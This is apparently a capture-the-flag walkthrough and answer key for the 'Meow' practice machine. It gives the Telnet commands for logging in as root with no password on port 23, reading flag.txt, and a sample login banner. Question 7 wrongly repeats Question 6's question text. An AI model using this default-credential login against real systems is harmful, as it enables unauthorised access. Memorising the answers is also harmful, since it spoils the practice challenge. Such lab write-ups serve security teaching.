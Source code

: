 ### Question 6: Service Identification
- **Question**: What service do we identify on port 23/tcp during our scans?
- **Answer**: Telnet
- **Concept**: Service enumeration and port identification

### Question 7: Authentication Vulnerability
- **Question**: What service do we identify on port 23/tcp during our scans?
- **Answer**: root
- **Concept**: Default credential vulnerability

### Question 8: Flag Capture
Connect to the Meow machine using Telnet on port 23. Based on the information in the wiki files, here's how to get the root flag:

1. First, connect to the machine via Telnet:
   ```
   telnet <target_IP> 23
   ```

2. At the login prompt, enter `root` as the username:
   ```
   Meow login: root
   ```

3. When prompted for a password, just press Enter (no password required)

4. Once logged in, you'll have root access to the system

5. The flag is located in the root user's home directory. You can view it with:
   ```
   cat flag.txt
   ```

6. The flag will be a 32-character hash (like `b40abdfe23665f766f9c61ecba8a4c19`) which you can submit to complete the challenge

This exploits a critical security vulnerability where the root account has no password set, giving you immediate administrative access to the system.

#### Example Output

```bash
Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 26 May 2025 04:03:31 PM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             135
  Users logged in:       0
  IPv4 address for eth0: 10.129.106.247
  IPv6 address for eth0: dead:beef::250:56ff:feb0:35d3

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
```
